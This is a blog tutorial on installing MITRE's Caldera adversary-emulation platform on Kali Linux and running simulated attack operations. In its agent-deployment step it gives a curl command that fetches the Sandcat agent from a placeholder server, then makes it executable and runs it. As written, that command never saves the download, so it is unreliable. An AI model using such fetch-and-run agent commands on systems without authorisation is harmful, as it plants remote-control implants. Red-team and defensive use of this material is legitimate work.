 ```yaml
---
draft: false
title: "Caldera on Kali Linux Tools: A Comprehensive Guide"
linkTitle: Caldera
translationKey: caldera-on-kali-linux-tools-a-comprehensive-guide
weight: 560
description: We will explore Caldera in detail, including its features, installation process on Kali Linux, practical usage, and benefits for cybersecurity professionals.
date: 2025-02-12
url: caldera-on-kali-linux-tools-a-comprehensive-guide
tags:
  - kali tools
categories:
  - Kali linux
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
keywords: 
  - caldera
featured_image: /images/kalilinux2.webp
---
```

## Introduction

Kali Linux is one of the most popular penetration testing and cybersecurity-focused operating systems available today. It comes preloaded with a variety of tools designed for security professionals, ethical hackers, and researchers. Among these tools, **Caldera** stands out as an advanced adversary emulation platform developed by **MITRE**. Caldera allows cybersecurity professionals to simulate real-world cyberattacks in a controlled environment, helping organizations strengthen their defense mechanisms.

In this article, we will explore Caldera in detail, including its features, installation process on Kali Linux, practical usage, and benefits for cybersecurity professionals.

## What is Caldera?

Caldera is an **automated adversary emulation system** that enables cybersecurity professionals to test their defense mechanisms against simulated threats. It operates using **MITRE ATT&CK tactics, techniques, and procedures (TTPs)** to mimic real-world cyber threats, making it an invaluable tool for security assessments.

### Key Features of Caldera

1. **Adversary Emulation**: Caldera can simulate sophisticated attacks, allowing security teams to test their incident response strategies.
2. **Automated Red Teaming**: It provides automation capabilities for red teaming, reducing the manual effort required to simulate attacks.
3. **Extensibility**: The tool supports plugins and modules, making it customizable to different attack scenarios.
4. **Agent-based Operations**: It supports multiple agent types, such as the default `sandcat` agent, which enables adversary simulation.
5. **Intuitive Web Interface**: It features a web-based UI that allows easy management of attack operations.
6. **Built-in ATT&CK Mapping**: It is designed around MITRE ATT&CK, ensuring comprehensive threat simulation based on real-world tactics.
7. **Cross-Platform Compatibility**: It works on Windows, Linux, and macOS environments, making it a versatile cybersecurity tool.

## Installing Caldera on Kali Linux

While Kali Linux comes with numerous pre-installed penetration testing tools, **Caldera is not included by default**. However, installing it on Kali Linux is straightforward.

### Step 1: Update Your System

Before installing Caldera, update your system to ensure that you have the latest packages and dependencies:

```bash
sudo apt update && sudo apt upgrade -y
```

### Step 2: Install Required Dependencies

Ensure you have Python 3 and Git installed:

```bash
sudo apt install python3 git -y
```

### Step 3: Clone the Caldera Repository

Next, clone the official Caldera repository from GitHub:

```bash
git clone https://github.com/mitre/caldera.git --recursive
```

### Step 4: Navigate to the Caldera Directory

Move into the cloned directory:

```bash
cd caldera
```

### Step 5: Install Dependencies

Use pip to install the necessary dependencies:

```bash
pip install -r requirements.txt
```

### Step 6: Start Caldera

Run the following command to start the Caldera server:

```bash
python3 server.py --insecure
```

### Step 7: Access the Web Interface

Once the server is running, open a web browser and navigate to:

```
http://localhost:8888
```

Log in using the default credentials (username: `admin`, password: `admin`).

## Using Caldera for Adversary Simulation

After setting up Caldera, you can start using it for adversary simulation and penetration testing.

### Step 1: Deploying an Agent

Caldera relies on agents to execute attack techniques. The most commonly used agent is **Sandcat**, which can be deployed on the target system. To deploy an agent, navigate to **Agents > Add Agent** and generate an appropriate command for the target system.

For a Linux target, use:

```bash
curl -s http://<Caldera_IP>:8888/file/download; chmod +x sandcat; ./sandcat -server http://<Caldera_IP>:8888
```

### Step 2: Running an Operation

After deploying an agent, you can run an adversary operation:

1. Go to **Operations > Create Operation**.
2. Select an existing adversary profile (e.g., **default** or **APT** profiles).
3. Choose the deployed agent.
4. Start the operation to execute attack techniques.

### Step 3: Viewing Attack Results

Once an operation is complete, you can analyze results in the **Reports** section. The interface provides insights into executed techniques, system responses, and any potential security gaps.

## Benefits of Using Caldera on Kali Linux

1. **Realistic Cyber Threat Emulation**: Simulates real-world attack scenarios based on MITRE ATT&CK.
2. **Automation**: Reduces manual efforts required for security testing and vulnerability assessments.
3. **Enhanced Defense Mechanisms**: Helps organizations strengthen security by identifying weaknesses.
4. **Cost-Effective**: An open-source tool that provides enterprise-level functionalities for free.
5. **Continuous Learning**: Security teams can stay updated with the latest attack tactics and techniques.

## Conclusion

Caldera is a powerful adversary emulation tool that enhances penetration testing and red teaming activities. When integrated with Kali Linux, it provides cybersecurity professionals with a robust environment to assess, improve, and automate security defenses. Whether you are a penetration tester, security researcher, or a blue team member, Caldera is an essential tool that can significantly enhance your cybersecurity strategy.

By following the installation steps outlined in this guide, you can easily set up and start using Caldera on Kali Linux to simulate cyber threats effectively. Start exploring its capabilities today and take your cybersecurity skills to the next level!
